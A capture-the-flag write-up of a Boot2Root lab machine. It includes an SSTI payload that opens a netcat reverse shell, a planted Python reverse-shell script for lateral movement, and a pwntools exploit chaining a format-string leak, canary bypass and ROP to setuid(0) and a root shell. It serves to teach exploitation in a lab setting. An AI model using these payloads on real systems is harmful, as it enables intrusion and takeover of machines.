Quick but complete walk-through for the Boot2Root CTF hosted during Cyber Quest 2025.



### Initial Access

Ran an `nmap` scan —

```sh
sudo nmap -sC 192.168.57.24 -A -v -p-
```



We found a web-server running at `5000` —



Fuzzed `directories` and `endpoints` using `ffuf`.

```sh
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://192.168.57.24:5000/FUZZ -fs 3806
```



Went to the page and tested for `SSTI` and confirmed it.





Entered the following payload and gained a foot-hold.

```py
{{''.__class__.__mro__[1].__subclasses__()[104].__init__.__globals__['sys'].modules['os'].popen('nc -e /bin/bash IP PORT').read()}}
```

Got the first flag — `FLAG -> S3Cur1ty_Br3@k_P@55ed`.



Found a suspicious directory at `/` —



Following the hint, investigated the `pcapng` file and copied all `ICMP` data -



Hex-decoding it, we obtained the following encoded text —

```sh
22gSOqdlldjDbbIxZ4NPAeodlIvKmMGjj3ZTw9D5fXc1ffsERpc7CznmEVd1BhfbqbQaIJ5s4
```

Finally using `CyberChef`, we decoded it to `Pass:H1dden_W0rlD_UnD3r_Bit` —



We also found a `Container.png` file and exported it —



After that we used a tool `OpenStego` and got the creds for `flower` —   
`F!ow3r#92@tY8&Vk` —



Also, we observe that we have more users apart from `root` -



### Privilege Escalation — Stage 1

We obtained `shell` to `flower` using `ssh` —



During recon we found a directory called `handler`, clearly we can see different permissions for different users.



When I checked for running processes, I saw `daemon.py` which was inside `/handler` directory running as `leaf` user —



Further investigating `daemon.py` I found out that it copies `handler.py` from `/handler` to `/tmp/` directory as `leaf` user and then executes it as `leaf` user. I also noticed that I had privilege of `rw` for `/handler/handler.py` file and so I modified it.

```py
#!/usr/bin/env python3
import socket, os, pty, sys, time, traceback

HOST = "127.0.0.1"
PORT = 6969
CONNECT_TIMEOUT = 6.0

def main():
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(CONNECT_TIMEOUT)
        s.connect((HOST, PORT))
        s.settimeout(None)
        try:
            s.sendall(b"handler: connected - spawning PTY shell\n")
        except Exception:
            pass
    except Exception as e:
        time.sleep(0.2)
        return

    fd = s.fileno()
    os.dup2(fd, 0)
    os.dup2(fd, 1)
    os.dup2(fd, 2)

    try:
        pty.spawn("/bin/sh")
    except Exception:
        try:
            os.execv("/bin/sh", ["/bin/sh", "-i"])
        except Exception:
            try:
                s.close()
            except Exception:
                pass

if __name__ == "__main__":
    try:
        main()
    except Exception:
        traceback.print_exc()
        time.sleep(0.2)
```

We can trigger `daemon.py` to copy `handler.py` to `/tmp/handler_exec.py` as `leaf` user by doing `nc -nvlp 8080` so that it tries to make a connection —



And we pwned `leaf` user —



Obtained the third flag `FLAG -> Y0u_kn0w_i5_th15_RaC3` —



### Privilege Escalation — Stage 2

From recon we also found out that `/bin/` contained a binary that runs as `stem` and `leaf` user is allowed to execute it.



We obtain this `challenge` file and investigate. Most likely a `pwn` challenge.



We use `decompiler` and it looks like a `ret2win` challenge —



We see that `username` that we need to enter is `john` from —



Then we have a `password_check()` function, it is about making sure of a few constraints regarding string and there exists multiple such string that will satisfy as the `password`, you can use `GPTs` to find those strings —



Also on a side-note, we see that `Partial RELRO` simply moves the `GOT` above the program’s variables, meaning you can’t overflow into the `GOT` but **IT IS WRITEABLE** and it is **NOT** a `position independent executable`.


We also notice that using `Index` and then `Name` we can arbitrarily overwrite memory (not really) but in our case we can overwrite `GOT` table entry to `win()` function.



Here, we are able to overwrite `exit@got[plt]` entry with `win()` function and thus popping up a shell as `stem`.



We have obtained `stem` user —



Thus the 4th flag `FLAG -> PwN_2_0wN_N0w_Y0u_ar3_5t3M`—



### Privilege Escalation — Stage 3

Doing recon we found another binary called `final` —



Upon inspecting the binary, we found a `Format String Vulnerability` that we can use to leak `memory` `addresses` for `libc`, `binary` and also to leak `stack canary` —



Upon debugging along with error and trial we figured out that at the following position we are getting addresses for `__libc_start_call_main()`, `stack canary` and `main()` —



And the following function had `Stack Buffer Overflow` vulnerability —



Even though this `./final` challenge had all the protections `ON` it doesn’t matter because we are able to leak `stack` then perform `return oriented programming` to call `libc` functions —



Here’s my exploit to `pwn` the `./final` challenge —

```py
from pwn import *

p = process("/bin/final")

p.sendline(b"%43$p-%61$p-%64$p")

leak = p.clean().split(b'Your Name:\n')[1].split(b'\n\n')[0].split(b'-')
canary = int(leak[1].decode(), 16)
main_addr = int(leak[2].decode(), 16)

libc_start_call_main = int(leak[0].decode(), 16) - 120 #__libc_start_call_main
libc_start_main = libc_start_call_main + 0xae # __libc_start_main
libc_base_addr = libc_start_main - 0x2a200 # 0x2a200 = libc_start_main - offset of __libc_start_main
binsh = libc_base_addr + 0x1cb42f # 0x1cb42f = offset in libc.so.6 for "/bin/sh" string
libc_system = libc_base_addr + 0x58750 # 0x58750 = offset in libc.so.6 for "system()" call
libc_pop_rdi_ret = libc_base_addr + 0x10f75b # pop rdi; ret gadget in libc.so.6
libc_ret = libc_base_addr + 0x10f75c # ret; gadget in libc.so.6
libc_setuid = libc_base_addr + 0x10ea90 # setuid() call in libc.so.6

real_canary = p64(canary)
real_main_addr = p64(main_addr)
real_libc_system = p64(libc_system)
real_binsh = p64(binsh)
real_libc_pop_rdi_ret = p64(libc_pop_rdi_ret)
real_libc_ret = p64(libc_ret)
real_libc_setuid = p64(libc_setuid)

print("[+] Obtained Canary :: {}".format(leak[1]))
print("[+] main() Address :: {}".format(leak[2]))
print("[+] __libc_start_main() Address :: {}".format(hex(libc_start_main)))
print("[+] libc_base_addr Address :: {}".format(hex(libc_base_addr)))

#p.close()
#exit()

payload = b""
payload += b"A" * 0x48 # buffer
payload += real_canary # canary
payload += b"B" * 0x8 # saved_rbp

payload += real_libc_pop_rdi_ret # pop rdi; ret
payload += p64(0)
payload += real_libc_ret # ret;
payload += real_libc_setuid # setuid(0)

payload += real_libc_pop_rdi_ret # pop rdi; ret
payload += real_binsh # "/bin/sh"
payload += real_libc_ret # ret;
payload += real_libc_system # system()

payload += b"\x90" * 0x8

p.send(payload)

print(p.clean())

p.interactive()
```

Once you run `python3 final_pwn.py` script and boom we obtained our final flag — `D4Y_0_T0_zeR0_d4Y`.



### Afterwords

😸 Thank you for reading this brief write-up. I’d like to post a longer one for the last challenge about binary exploitation if I am in mood. Let me know if you have any questions. Happy hacking💖.